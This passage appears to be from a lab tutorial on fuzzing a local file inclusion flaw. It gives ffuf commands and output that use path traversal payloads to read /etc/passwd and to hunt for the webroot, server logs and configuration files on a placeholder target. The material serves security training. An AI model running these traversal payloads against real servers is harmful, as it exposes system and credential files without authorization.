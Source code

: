```shell-session
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

### Fuzzzing Server Files

We're interested in:
* `Server webroot path`
* `Server configuration files`
* `Server logs`

#### Server Webroot
We can fuzz for index.php using [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). We may need to add a few back directories. (e.g., `../../../../`)

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot.

#### Server Logs/Configurations
Look for logs and configurations, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:
```shell-session
Morrigar@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________
```